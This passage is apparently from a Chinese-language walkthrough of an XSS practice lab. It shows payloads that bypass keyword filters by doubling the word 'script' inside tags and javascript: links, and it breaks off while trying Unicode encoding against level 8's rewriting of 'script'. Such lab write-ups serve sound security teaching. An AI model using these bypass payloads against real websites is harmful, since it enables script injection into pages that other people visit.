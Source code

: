 

结果为

```
<input name=keyword  value=""><>alert(1)</>">
```



过滤掉script

直接双写绕过

```
"><sscriptcript>alert(1)</scscriptript>
```



- 双写绕过这个也行

```
"> <a hhrefref="javascrscriptipt:alert(1)">1</a>
```



## 8.

尝试添加

```
<script>alert(1)</script>
```



查看元素发现

```
<center><BR><a href="<scr_ipt>alert(1)</scr_ipt>">友情链接</a></center><center><img src=level8.jpg></center>
```



分析：

首先滤过了script，也不能双写

尝试直接提交

```
javascript:alert(1)
```

变成了

```
<a href="javascr_ipt:alert(1)">友情链接</a></center><center><img src=level8.jpg></center>
```



上网查看一下a标签还有什么元素可以操作

尝试将JavaScript进行unicode编码转义
